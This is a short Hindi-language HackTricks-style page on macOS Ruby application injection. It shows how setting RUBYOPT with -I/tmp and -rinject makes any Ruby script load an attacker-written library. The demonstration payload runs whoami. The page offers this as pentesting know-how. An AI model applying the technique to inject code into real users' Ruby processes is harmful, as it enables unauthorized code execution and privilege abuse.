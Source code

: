 # macOS Ruby Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## RUBYOPT

इस env वेरिएबल का उपयोग करके **ruby** को निष्पादित करते समय **नए params** **जोड़ना** संभव है। हालांकि **`-e`** पैरामीटर का उपयोग ruby को निष्पादित करने के लिए कोड निर्दिष्ट करने के लिए नहीं किया जा सकता, लेकिन **`-I`** और **`-r`** पैरामीटर का उपयोग करके लोड पथ में एक नई फ़ोल्डर जोड़ना और फिर **लोड करने के लिए एक पुस्तकालय निर्दिष्ट करना** संभव है।

पुस्तकालय **`inject.rb`** को **`/tmp`** में बनाएं:
```ruby:inject.rb
puts `whoami`
```
किसी भी जगह एक रूबी स्क्रिप्ट बनाएं जैसे:
```ruby:hello.rb
puts 'Hello, World!'
```
फिर एक मनमाना रूबी स्क्रिप्ट इसे लोड करें:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```
दिलचस्प तथ्य, यह **`--disable-rubyopt`** पैरामीटर के साथ भी काम करता है:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```
{{#include ../../../banners/hacktricks-training.md}}
